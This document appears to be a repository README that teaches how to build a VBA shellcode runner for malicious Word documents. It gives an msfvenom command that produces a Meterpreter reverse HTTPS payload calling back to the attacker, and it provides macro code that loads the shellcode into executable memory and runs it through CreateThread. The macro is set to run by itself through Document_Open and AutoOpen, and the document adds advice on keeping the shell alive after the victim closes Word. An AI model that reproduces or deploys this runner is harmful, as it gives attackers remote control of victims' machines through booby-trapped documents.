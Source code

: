 # VBA-Shellcode-Runner:

Calling Win32 APIs from VBA:

Windows operating system APIs (or Win32 APIs) are located in dynamic link libraries and run as unmanaged code. We'll use the Declare keyword to link to these APIs in VBA, providing the name of the function, the DLL it resides in, the argument types, and return value types. We will use a Private Declare, meaning that this function will only be used in our local code.
The typical approach is to use three Win32 APIs from Kernel32.dll: VirtualAlloc, RtlMoveMemory, and CreateThread. For function prototype we can refer https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex


We will use VirtualAlloc to allocate unmanaged memory that is writable, readable, and executable. We'll then copy the shellcode into the newly allocated memory with RtlMoveMemory, and create a new execution thread in the process through CreateThread to execute the shellcode. 

Allocating memory through other Win32 APIs returns non-executable memory due to the memory protection called Data Execution Prevention (DEP)

In order to generate the shellcode, we need to know the target architecture. Obviously we are targeting a 64-bit Windows machine, but Microsoft Word 2016 installs as 32-bit by default, so we will generate 32-bit shellcode.

    msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f vbapplication 
  
  (Since we will be executing our shellcode inside the Word application, we specify the EXITFUNC with a value of "thread" instead of the default value of "process" to avoid closing Microsoft Word when the shellcode exits.)


In summary, we begin by declaring functions for the three Win32 APIs. Then we declare five variables, including a variable for our Meterpreter array and use VirtualAlloc to create some space for our shellcode. Next, we use RtlMoveMemory to put our code in memory with the help of a For loop. Finally, we use CreateThread to execute our shellcode. When executed, our shellcode runner calls back to the Meterpreter listener and opens the reverse shell as expected, entirely in memory.

To work as expected, this requires a matching 32-bit multi/handler in Metasploit with the EXITFUNC set to "thread" and matching IP and port number.

the primary disadvantage is that when the victim closes Word, our shell will die. so we need to incorporate Process Injection/Migration techniques. Metasploit's AutoMigrate module solves this. 

Code: 

      Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
      
      Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
      
      Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
      
      Function MyMacro()
          Dim buf As Variant
          Dim addr As LongPtr
          Dim counter As Long
          Dim data As Long
          Dim res As Long
          
          buf = Array(msfvenom generated vba shell code)
      
          addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
          
          For counter = LBound(buf) To UBound(buf)
              data = buf(counter)
              res = RtlMoveMemory(addr + counter, data, 1)
          Next counter
          
          res = CreateThread(0, 0, addr, 0, 0, 0)
      End Function 
      
      Sub Document_Open()
          MyMacro
      End Sub
      
      Sub AutoOpen()
          MyMacro
      End Sub
